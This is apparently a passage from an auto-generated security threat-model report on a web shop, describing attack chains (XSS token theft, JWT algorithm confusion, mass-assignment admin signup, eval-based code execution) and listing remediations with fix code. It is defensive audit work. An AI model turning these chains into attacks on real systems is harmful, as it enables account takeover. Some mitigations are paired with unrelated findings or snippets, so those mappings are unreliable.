#### F-007 · Missing Dockerfile HEALTHCHECK Instruction

**Severity:** 🟢 Low  ·  **Component:** [C-07](#c-07) - GitHub Actions CI/CD Pipeline  ·  **Location:** `Dockerfile`:1

**Issue:** Dockerfile HEALTHCHECK instruction - Dockerfile:1 Missing HEALTHCHECK delays orchestrator detection of a hung or poisoned container.

**Evidence:** ✓ verified

**Fix:** ❹ [M-046](#m-046) — Dockerfile HEALTHCHECK instruction

**Classification:** Error Information Disclosure · [CWE-703](https://cwe.mitre.org/data/definitions/703.html) · [OWASP A05:2021](https://owasp.org/Top10/A05_2021/)

---

_**Severity annotation:** rows tagged `*(raw Critical)*` had a Critical-class impact that was capped to a lower effective severity by the triage stage (likelihood downgrade or `data/severity-caps.yaml` rule). The rendered severity is the **effective** severity used for ranking and prioritisation; the raw severity is preserved here so reviewers can re-evaluate the cap decision._

---

_**Evidence verification:** rows tagged `⚠ (evidence refuted)` were re-checked by the Phase 10a evidence-verifier (see `.evidence-verification.json`) and the cited `file:line` did **not** show the claimed weakness. Their raw severity is preserved, but chain-elevation has been suppressed by the triage stage. Rows tagged `◌ (evidence ambiguous)` could not be confirmed or refuted from the cited snippet alone - a human reviewer should decide whether to keep, downgrade, or remove these findings._

---

## 9. Abuse Cases

_Abuse cases describe end-to-end attack scenarios that chain individual findings into an exploitation path. Each case is **mandatory** - defined in the org profile / plugin library and evaluated against every repository. Every chain step references a finding from [§8 Findings Register](#8-findings-register); each step is code-confirmed against the repository and the chain verdict is folded deterministically from the per-step results, never rated by hand._

| # | Scenario | Actor | Combined Risk | Verdict |
|--------|------------------------------------|------------------|-------------|--------------|
| [AC-T-001](#ac-t-001) | Account Takeover via Stored XSS + Token<br/>Hijacking | external-attacker | 🔴 Critical | ◐ Partially blocked |
| [AC-T-002](#ac-t-002) | Bulk Data Exfiltration via Broken Object<br/>Authorization | authenticated-user | 🔴 Critical | ? Inconclusive |
| [AC-T-003](#ac-t-003) | Privilege Escalation to Admin via JWT<br/>Algorithm Confusion | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-004](#ac-t-004) | Privilege Escalation via Mass-Assignment on<br/>Registration | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-005](#ac-t-005) | Authentication Bypass via Exposed Secret<br/>Material | external-attacker | 🔴 Critical | ⚠ Fully viable |
| [AC-T-006](#ac-t-006) | Remote Code Execution via Server-Side<br/>Injection | external-attacker | 🔴 Critical | ◐ Partially blocked |

_Verdict: ⚠ Fully viable - no effective control blocks this chain · ◐ Partially blocked - at least one step has a compensating control but the chain is not fully closed · ✓ Mitigated - chain is broken at a verified step · ? Inconclusive - could not be verified end-to-end._

---

### <a id="ac-t-001"></a>AC-T-001 — Account Takeover via Stored XSS + Token Hijacking

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Obtain persistent authenticated access as an arbitrary user without valid credentials.

**Prerequisite:** Attacker can submit content that is later rendered to other users (e.g. feedback, comments, profile fields).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (search-result.component.ts:170) | Attacker JavaScript executes in the victim's<br/>browser session. |
| 2 | 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage<br/>`frontend/src/app/Services/request.interceptor.ts:13` | Token exfiltrated from local/session storage<br/>via the Step 1 payload. |
| 3 | 🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (login.component.ts:134)<br/>`lib/insecurity.ts:189` | Exfiltrated token accepted for a new<br/>session; absence of token binding / PKCE<br/>removes the last server-side revocation<br/>opportunity. |

**Why combined risk exceeds individual ratings**

Individually the XSS sink and the web-readable token storage rate below Critical, but chained they form a repeatable credential-theft path: a single stored payload causes indefinite session compromise for every user who views the affected page.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❸ [M-011](#m-011) — Manual review: verify Reflected DOM XSS via Search Query Parameter at `frontend/src/app/search-result/search-result.component.ts:170` (**P3**): remediating 🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (search-result.component.ts:170) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-005](#m-005) — Manual review: verify JWT Session Token in localStorage XSS-Accessible Storage at `frontend/src/app/Services/request.interceptor.ts:13` (**P3**): remediating 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❸ [M-017](#m-017) — Manual review: verify OAuth Implicit Flow Token in URL Fragment at `frontend/src/app/login/login.component.ts:134` (**P3**): remediating 🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (login.component.ts:134) breaks the chain at **Step 3**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-002"></a>AC-T-002 — Bulk Data Exfiltration via Broken Object Authorization

> **Source:** mandatory · **Actor:** authenticated-user - authenticated low-privilege user · **Combined Risk:** 🔴 Critical · **Verdict:** ? Inconclusive

**Goal:** Enumerate and exfiltrate other users' records, then escalate own permissions via unguarded mass assignment.

**Prerequisite:** Attacker holds a valid, non-privileged user account.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>`routes/address.ts:11` | Attacker enumerates and retrieves records<br/>for arbitrary object IDs; no ownership<br/>comparison is performed. |
| 2 | 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>`routes/address.ts:11` | Update endpoint persists an unfiltered `role`<br/>(or equivalent) field supplied in the<br/>request body. |

**Why combined risk exceeds individual ratings**

The ownership gap exposes every record, and the mass-assignment gap lets the same low-privilege actor self-elevate - together they turn a single compromised account into full tenant data access and role escalation.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-002](#m-002) — Adopt parameterised queries / ORM across all data-access paths (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause. (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-003"></a>AC-T-003 — Privilege Escalation to Admin via JWT Algorithm Confusion

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge an admin-role JWT without knowledge of the signing secret.

**Prerequisite:** Attacker can obtain any valid JWT issued by the system (e.g. by registering a free account).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) | Verifier accepts attacker-chosen `alg` (e.g.<br/>`none` or HMAC-with-public-key), allowing<br/>token re-signing without the secret. |
| 2 | 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>`lib/insecurity.ts:159` | Forged `role: admin` claim is accepted as<br/>authoritative because the role is not<br/>re-fetched from the database per request. |

**Why combined risk exceeds individual ratings**

Algorithm confusion alone yields a forgeable token; trusting the in-token role claim turns that forgery into instant admin access - neither gap is Critical in isolation, but the chain is a full authentication bypass.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-001](#m-001) — Centralise JWT secret management and enforce algorithms allowlist (**P1**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-004](#m-004) — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at `lib/insecurity.ts:54` (**P3**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-002](#m-002) — Adopt parameterised queries / ORM across all data-access paths (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 2**, removing the link the rest of the chain depends on.
- ❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause. (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-004"></a>AC-T-004 — Privilege Escalation via Mass-Assignment on Registration

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Obtain an administrator account without any existing privilege.

**Prerequisite:** Self-registration is open (one unauthenticated POST).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…<br/>`server.ts:483` | The account-creation handler persists the<br/>request body wholesale, so a client-supplied<br/>`role` (or `isAdmin`) field is written verbatim. |

**Why combined risk exceeds individual ratings**

A single unauthenticated request mints an admin account when the registration handler trusts a client-supplied role field - the most direct full-compromise path in role-based apps with open sign-up.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-002](#m-002) — Adopt parameterised queries / ORM across all data-access paths (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause. (**P1**): remediating 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou… breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-005"></a>AC-T-005 — Authentication Bypass via Exposed Secret Material

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ⚠ Fully viable

**Goal:** Forge trusted tokens / credentials and impersonate any user.

**Prerequisite:** Signing material or other secrets are reachable (committed to a public repo, served by an unauthenticated route, or in an exposed directory).

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) | A private key, signing secret, or credential<br/>file is committed to the source repository<br/>or served without authentication. |
| 2 | 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) | The exposed key/secret is the same one the<br/>server trusts, so a token signed with it (or<br/>the leaked credential) is accepted as<br/>authentic. |

**Why combined risk exceeds individual ratings**

Exposed signing material collapses the entire authentication boundary: any attacker who reads the key can mint a valid token for any identity or role, with no credential ever required.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❶ [M-001](#m-001) — Centralise JWT secret management and enforce algorithms allowlist (**P1**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`), 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-007](#m-007) — Manual review: verify Hardcoded RSA Private Key at `lib/insecurity.ts:23` (**P3**): remediating 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.
- ❸ [M-004](#m-004) — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at `lib/insecurity.ts:54` (**P3**): remediating 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`) breaks the chain at **Step 2**, removing the link the rest of the chain depends on.

---

### <a id="ac-t-006"></a>AC-T-006 — Remote Code Execution via Server-Side Injection

> **Source:** mandatory · **Actor:** external-attacker - unauthenticated external attacker · **Combined Risk:** 🔴 Critical · **Verdict:** ◐ Partially blocked

**Goal:** Execute arbitrary code in the application process.

**Prerequisite:** An input reaches a server-side interpreter / template / eval.

**Attack chain**

| Step | Finding | Outcome |
|--------|------------------------------------------------|----------------------|
| 1 | 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`) | Attacker-controlled input is passed to `eval`,<br/>a server-side template engine, an unsafe<br/>sandbox, or an unsafe deserializer. |

**Why combined risk exceeds individual ratings**

A single injection into a server-side interpreter yields code execution in the application process - the highest-impact outcome, granting full filesystem and network access from one unauthenticated request.

**Blocking mitigations**

Implementing any single mitigation below severs the chain at the named step, so the end-to-end abuse can no longer complete:

- ❸ [M-014](#m-014) — Manual review: verify Sandbox Escape via Unsafe Expression Evaluation at `routes/b2bOrder.ts:23` (**P3**): remediating 🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`) breaks the chain at **Step 1**, removing the link the rest of the chain depends on.

---

## 10. Mitigation Register

Each mitigation block lists the findings it **Addresses**, the CWEs it **Prevents**, and the **Priority** (P1 = before deployment, P2 = current sprint, P3 = next quarter, P4 = backlog). The **Why** / **How** / **Verification** fields are populated only when authored; if a field is omitted, refer to the linked finding's *Evidence* line for file:line context and to the threat-category description in [§8 Findings Register](#8-findings-register) for the underlying weakness.

**Mitigations index:**<br/>❶ [M-001](#m-001) — Centralise JWT secret management and enforce algorithms allowlist<br/>❶ [M-002](#m-002) — Adopt parameterised queries / ORM across all data-access paths<br/>❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent…<br/>❷ [M-043](#m-043) — Dockerfile base image must be digest-pinned<br/>❷ [M-047](#m-047) — Dockerfile no --unsafe-perm install flag<br/>❷ [M-048](#m-048) — GitHub Actions workflow-level permissions block<br/>❷ [M-049](#m-049) — Third-party GitHub Actions pinned to commit SHA<br/>❷ [M-053](#m-053) — Replace `.decode(token)` with `.verify(token, key, { algorithms: [...]…<br/>❷ [M-054](#m-054) — Add an explicit auth middleware (isAuthorized() / passport.authenticate…<br/>❸ [M-003](#m-003) — Establish dependency-update SLA and container image pinning policy<br/>❸ [M-004](#m-004) — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowl…<br/>❸ [M-005](#m-005) — Manual review: verify JWT Session Token in localStorage XSS-Accessible…<br/>❸ [M-006](#m-006) — Manual review: verify SQL Injection Authentication Bypass at routes/log…<br/>❸ [M-007](#m-007) — Manual review: verify Hardcoded RSA Private Key at lib/insecurity.ts:23<br/>❸ [M-008](#m-008) — Manual review: verify Derived Predictable Password from Email Claim at…<br/>❸ [M-009](#m-009) — Manual review: verify SQL Injection via UNION in Product Search at rout…<br/>❸ [M-010](#m-010) — Manual review: verify Zip-slip arbitrary file write via raw `entry.path`…<br/>❸ [M-011](#m-011) — Manual review: verify Reflected DOM XSS via Search Query Parameter at f…<br/>❸ [M-012](#m-012) — Manual review: verify Hardcoded RSA Private Key at lib/insecurity.ts:23<br/>❸ [M-013](#m-013) — Manual review: verify MD5 Password Hashing Without Salt at lib/insecuri…<br/>❸ [M-014](#m-014) — Manual review: verify Sandbox Escape via Unsafe Expression Evaluation a…<br/>❸ [M-015](#m-015) — Manual review: verify Mass Assignment Allows Self-Promotion to Admin Ro…<br/>❸ [M-016](#m-016) — Manual review: verify Missing authentication on POST `/file-upload` allow…<br/>❸ [M-017](#m-017) — Manual review: verify OAuth Implicit Flow Token in URL Fragment at fron…<br/>❸ [M-018](#m-018) — Manual review: verify Server-Side Template Injection via eval in User P…<br/>❸ [M-019](#m-019) — Manual review: verify Missing Authorization on Products PUT Endpoint at…<br/>❸ [M-020](#m-020) — Manual review: verify Server-Side Request Forgery via Profile Image URL…<br/>❸ [M-021](#m-021) — Manual review: verify Unlocked npm Dependencies Enable Postinstall Code…<br/>❸ [M-022](#m-022) — Manual review: verify XXE via external entity resolution in XML upload…<br/>❸ [M-023](#m-023) — Manual review: verify Stored XSS via Product Description Trust Bypass a…<br/>❸ [M-024](#m-024) — Manual review: verify Missing Audit Log for B2B Order Submissions at ro…<br/>❸ [M-025](#m-025) — Manual review: verify Missing User-Identity Audit Trail in Access Logs…<br/>❸ [M-026](#m-026) — Manual review: verify Missing Security Audit Log for Data Mutations at…<br/>❸ [M-027](#m-027) — Manual review: verify No audit logging of file upload events or file ac…<br/>❸ [M-028](#m-028) — Manual review: verify Unauthenticated Access Log Directory Listing at s…<br/>❸ [M-029](#m-029) — Manual review: verify Org-Admin Token Exposed in pull_request_target Co…<br/>❸ [M-030](#m-030) — Manual review: verify Plaintext Payment Card Storage at `models/card.ts`:…<br/>❸ [M-031](#m-031) — Manual review: verify Null-byte injection bypasses extension allowlist…<br/>❸ [M-032](#m-032) — Manual review: verify Publicly exposed /ftp/ directory listing reveals…<br/>❸ [M-033](#m-033) — Manual review: verify Unauthenticated WebSocket broadcasts all challeng…<br/>❸ [M-034](#m-034) — Manual review: verify Missing Rate Limit on CPU-Bound Sandbox Endpoint…<br/>❸ [M-035](#m-035) — Manual review: verify Missing Rate Limit on Login Endpoint at server.ts…<br/>❸ [M-036](#m-036) — Manual review: verify XML Entity Expansion DoS in File Upload at routes…<br/>❸ [M-037](#m-037) — Manual review: verify YAML bomb and XML billion-laughs cause CPU/memory…<br/>❸ [M-038](#m-038) — Manual review: verify No connection rate limit on Socket\.IO upgrade end…<br/>❸ [M-039](#m-039) — Manual review: verify Unauthenticated Admin Configuration Endpoints at…<br/>❸ [M-040](#m-040) — Manual review: verify Password Change Bypass Without Current Password a…<br/>❸ [M-041](#m-041) — Manual review: verify Client-Side-Only Admin Route Guard at frontend/sr…<br/>❸ [M-042](#m-042) — Manual review: verify Unauthenticated client events trigger server-side…<br/>❸ [M-044](#m-044) — Container image signing via cosign or attest-build-provenance<br/>❸ [M-045](#m-045) — Dockerfile npm/pnpm/yarn uses --ignore-scripts<br/>❸ [M-050](#m-050) — Dockerfile USER directive (non-root)<br/>❸ [M-051](#m-051) — GITHUB_TOKEN scope minimization<br/>❸ [M-055](#m-055) — Render lastLoginIp as textContent rather than trusted HTML in last-logi…<br/>❸ [M-056](#m-056) — Add query timeout and result-set limit to the product search raw SQL ca…<br/>❸ [M-057](#m-057) — Replace url.includes() with exact-match or startsWith() in isRedirectAl…<br/>❹ [M-046](#m-046) — Dockerfile HEALTHCHECK instruction

### P1 — Immediate

<a id="m-001"></a>
#### M-001 — Centralise JWT secret management and enforce algorithms allowlist

**Addresses:**

- 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`)
- 🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)
- 🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)
- 🔴 [F-019](#f-019) — JWT decode used without signature verification

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `lib/insecurity.ts:54`

**How:**

1. Change line 54 of `lib/insecurity.ts` from `expressJwt({ secret: publicKey })` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` to reject tokens with any other algorithm.
2. Audit all other JWT verification call sites (jws.verify, jwt.verify) in the codebase to confirm they also pin the algorithm.
3. Add an integration test that submits a JWT with `alg:none` or `alg:HS256` to `/b2b/v2/orders` and asserts a 401 response.
4. Generate a new RSA-2048 key pair: `openssl genrsa -out jwt_private.pem 2048 && openssl rsa -in jwt_private.pem -pubout -out jwt_public.pem`.
5. Store the private key in a secrets manager (AWS Secrets Manager, HashiCorp Vault, or at minimum `process.env.JWT_PRIVATE_KEY`) and load it at startup: `const privateKey = process.env.JWT_PRIVATE_KEY`.
6. Remove the hardcoded key string from `lib/insecurity.ts:23`, add it to `.gitignore` if using a local file, and invalidate all existing JWTs by updating the issuer claim or rotating the key.
7. Add a secret-scanning CI step (e.g. `gitleaks` or `trufflehog`) to prevent future key commits.
8. Remove the hardcoded `privateKey` string from `lib/insecurity.ts` and replace with `process.env.JWT_PRIVATE_KEY` (or load from a mounted secret file at startup).
9. Generate a new 2048-bit RSA key pair using `openssl genrsa -out jwt.key 2048` and store the private key in the deployment secrets manager (e.g., AWS Secrets Manager, HashiCorp Vault, Kubernetes Secret).
10. Update the corresponding public key reference and rotate all active JWT tokens to invalidate any forged tokens using the old key.
11. Add a startup guard that exits the process if `JWT_PRIVATE_KEY` is not set, preventing deployment without a configured key.

```javascript
// lib/insecurity.ts — corrected
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-002"></a>
#### M-002 — Adopt parameterised queries / ORM across all data-access paths

**Addresses:**

- 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)
- 🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)
- 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/login.ts:34`

**How:**

1. Replace the `models.sequelize.query(string)` call at `routes/login.ts:34` with `UserModel.findOne({ where: { email: req.body.email, password: security.hash(req.body.password), deletedAt: null } })` using Sequelize ORM parameterisation.
2. Add server-side email format validation (e.g. `validator.isEmail(req.body.email)`) before the DB query to reject obviously malformed inputs early.
3. Enable a global `express-validator` sanitization middleware or add a per-route schema with `zod` to enforce email and password field types.
4. Replace the `models.sequelize.query(string)` call at `routes/search.ts:23` with `ProductModel.findAll({ where: { [Op.or]: [{ name: { [Op.like]: '%' + criteria + '%' } }, { description: { [Op.like]: '%' + criteria + '%' } }], deletedAt: null } })` - Sequelize ORM automatically parameterises the value.
5. Keep the 200-character length truncation as defence-in-depth but do not rely on it as the sole injection guard.
6. Add an integration test covering the UNION injection payload to prevent regression.

```typescript
// routes/login.ts — parameterised replacement
const authenticatedUser = await UserModel.findOne({
  where: {
    email: req.body.email || '',
    password: security.hash(req.body.password || ''),
    deletedAt: null
  }
})
```

**Reference:** CWE-89

---

<a id="m-052"></a>
#### M-052 — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause.

**Addresses:**

- 🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Across Resou…

**Priority:** P1 - Immediate · **Effort:** Medium · **File:** `routes/address.ts:11`

**How:** Replace `req.body.UserId`/`userId`/`ownerId` with `req.user.id` (or equivalent session-derived identity) in every WHERE/filter clause.

```typescript
// Ownership check before touching a resource.
const basket = await Basket.findByPk(req.params.id)
if (!basket || basket.UserId !== req.user.id) return res.status(403).end()
```

**Verification:** Authenticate as user A; request `/api/Baskets/<B's id>` and confirm 403.

---

### P2 — This Sprint

<a id="m-043"></a>
#### M-043 — Dockerfile base image must be digest-pinned

**Addresses:**

- 🟠 [F-004](#f-004) — Unpinned Container Base Images and Missing SBOM Generation (`Dockerfile`)

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:1`

**How:** Pin base image to @sha256:<digest> - Tag-only base images (FROM node:24) can be silently substituted by a malicious publisher. Digest-pinning (@sha256:…) ensures the exact image bytes are used on every build.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-047"></a>
#### M-047 — Dockerfile no --unsafe-perm install flag

**Addresses:**

- 🟠 [F-032](#f-032) — Dockerfile no --unsafe-perm install flag

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `Dockerfile:5`

**How:** Remove --unsafe-perm; use non-root user - `npm install --unsafe-perm` runs postinstall scripts as root, widening supply-chain compromise scope.

---

<a id="m-048"></a>
#### M-048 — GitHub Actions workflow-level permissions block

**Addresses:**

- 🟠 [F-033](#f-033) — GitHub Actions workflow-level permissions block

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:** Add `permissions: { contents: read }` at workflow root; elevate per-job only where needed - Without an explicit permissions block, the workflow inherits the repository default (commonly write-all) for GITHUB_TOKEN - any compromised step can push code, create releases, or approve PRs.

---

<a id="m-049"></a>
#### M-049 — Third-party GitHub Actions pinned to commit SHA

**Addresses:**

- 🟠 [F-034](#f-034) — Third-party GitHub Actions pinned to commit SHA

**Priority:** P2 - This Sprint · **Effort:** Low · **File:** `.github/workflows/codeql-analysis.yml:23`

**How:** Pin every third-party action to a full 40-char commit SHA - Tag-based action references (@v3, @main) are mutable - a compromised publisher can retroactively inject malicious code into an already-used tag.

---

<a id="m-053"></a>
#### M-053 — Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only.

**Addresses:**

- 🔴 [F-019](#f-019) — JWT decode used without signature verification

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `lib/insecurity.ts:58`

**How:** Replace `.decode(token)` with `.verify(token, key, { algorithms: [...] })` and gate authorization on the verified payload only.

---

<a id="m-054"></a>
#### M-054 — Add an explicit auth middleware (isAuthorized() / passport.authenticate() / requireAuth) to the route registration, or mark the route intentionally public via `app.get`(...) for read-only access only.

**Addresses:**

- 🔴 [F-047](#f-047) — Sensitive REST route registered without authentication middleware

**Priority:** P2 - This Sprint · **Effort:** Medium · **File:** `server.ts:310`

**How:** Add an explicit auth middleware (`isAuthorized()` / `passport.authenticate()` / `requireAuth`) to the route registration, or mark the route intentionally public via `app.get(...)` for read-only access only.

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Hit `/admin/...` with a non-admin JWT and confirm 403 (not 200).

---

### P3 — Next Quarter

<a id="m-003"></a>
#### M-003 — Establish dependency-update SLA and container image pinning policy

**Addresses:**

- 🟠 [F-004](#f-004) — Unpinned Container Base Images and Missing SBOM Generation (`Dockerfile`)
- 🟠 [F-024](#f-024) — Unlocked npm Dependencies Enable Postinstall Code Execution (.npmrc:1)
- 🟠 [F-032](#f-032) — Dockerfile no --unsafe-perm install flag
- 🟡 [F-050](#f-050) — Dockerfile USER directive (non-root)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `Dockerfile:1`

**How:**

1. Remove `package-lock=false` from `.npmrc` or override it for CI with `npm install --package-lock` in the `npm ci` flow - replace `npm install` with `npm ci` in all CI jobs so the lockfile is enforced and no network resolution occurs.
2. Add `--ignore-scripts` to all `npm install` invocations in workflows that do not require postinstall execution (build/test jobs). For the `coding-challenge-rsn` job on `windows-latest`, verify whether any postinstall hook is genuinely required before adding the flag.
3. Remove `--unsafe-perm` from the `Dockerfile` line 5 `npm install` invocation - it is not required when running as a dedicated user inside the container; replace with `npm install --omit=dev` without the flag.
4. Enable `npm audit` as a required CI gate and pin the `CYCLONEDX_NPM_VERSION` range to an exact version (`=4.x.x`) to reduce transitive drift.
5. Consider adopting `socket.dev` or Dependabot supply-chain alerts to detect typosquatting and dependency confusion before install.

```javascript
# ci.yml — replace npm install with npm ci
- name: "Install application"
  run: |
    npm ci --ignore-scripts
    cd frontend
    npm ci --ignore-scripts

# Dockerfile — remove --unsafe-perm
RUN npm install --omit=dev
```

**Reference:** CWE-1104

---

<a id="m-004"></a>
#### M-004 — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at lib/insecurity.ts:54

**Addresses:**

- 🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/insecurity.ts:54`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`lib/insecurity.ts:54`) and decide whether to keep, downgrade, or remove this finding.

1. Change line 54 of `lib/insecurity.ts` from `expressJwt({ secret: publicKey })` to `expressJwt({ secret: publicKey, algorithms: ['RS256'] })` to reject tokens with any other algorithm.
2. Audit all other JWT verification call sites (jws.verify, jwt.verify) in the codebase to confirm they also pin the algorithm.
3. Add an integration test that submits a JWT with `alg:none` or `alg:HS256` to `/b2b/v2/orders` and asserts a 401 response.

```javascript
// lib/insecurity.ts — corrected
export const isAuthorized = () => expressJwt({ secret: publicKey, algorithms: ['RS256'] })
```

**Reference:** CWE-347

---

<a id="m-005"></a>
#### M-005 — Manual review: verify JWT Session Token in localStorage XSS-Accessible Storage at frontend/src/app/Services/request.interceptor.ts:13

**Addresses:**

- 🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/request.interceptor.ts:13`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/Services/request.interceptor.ts:13`) and decide whether to keep, downgrade, or remove this finding.

1. Introduce a Backend-for-Frontend (BFF) endpoint (`/api/auth/session`) that accepts the authentication response and sets the JWT in an `HttpOnly; Secure; SameSite=Strict` cookie - never returning the raw token to the SPA JavaScript.
